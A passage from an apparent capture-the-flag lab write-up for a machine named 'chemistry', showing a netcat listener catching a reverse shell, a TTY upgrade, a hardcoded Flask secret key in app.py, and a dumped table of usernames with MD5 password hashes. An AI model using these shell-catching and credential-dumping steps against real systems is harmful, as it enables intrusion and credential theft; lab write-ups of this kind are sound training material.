 ```
$ nc -nvlp 3333
listening on [any] 3333 ...
connect to [10.10.14.182] from (UNKNOWN) [10.10.11.38] 60820
/bin/sh: 0: can't access tty; job control turned off
$ whoami
app
$ 
```

We get a full interactive shell:
```
$ script /dev/null -c bash
Script started, file is /dev/null
app@chemistry:~$ ^Z
[1]+  Stopped                 nc -nvlp 3333
┌──(cxzero㉿kali)-[~/htb/chemistry]
└─$ stty raw -echo
┌──(cxzero㉿kali)-[~/htb/chemistry]
└─$ 
nc -nvlp 3333
             reset
reset: unknown terminal type unknown
Terminal type? xterm
app@chemistry:~$ export SHELL=bash
app@chemistry:~$ export TERM=xterm
app@chemistry:~$
```

When reviewing the app.py file, we see that it is referencing a `database.db` file:

```
app@chemistry:~$ ls
app.py  instance  static  templates  uploads
app@chemistry:~$ more app.py
app@chemistry:~$ more app.py
from flask import Flask, render_template, request, redirect, url_for, flash
from werkzeug.utils import secure_filename
from flask_sqlalchemy import SQLAlchemy 
from flask_login import LoginManager, UserMixin, login_user, login_required, log
out_user, current_user
from pymatgen.io.cif import CifParser
import hashlib
import os
import uuid

app = Flask(__name__)
app.config['SECRET_KEY'] = 'MyS3cretCh3mistry4PP'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
```

We find some MD5 hashes:

```
pp@chemistry:~/instance$ sqlite3 database.db 
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
structure  user     
sqlite> select * from user;
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5 
4|robert|02fcf7cfc10adc37959fb21f06c6b467
5|jobert|3dec299e06f7ed187bac06bd3b670ab2
6|carlos|9ad48828b0955513f7cf0f7f6510c8f8
7|peter|6845c17d298d95aa942127bdad2ceb9b
```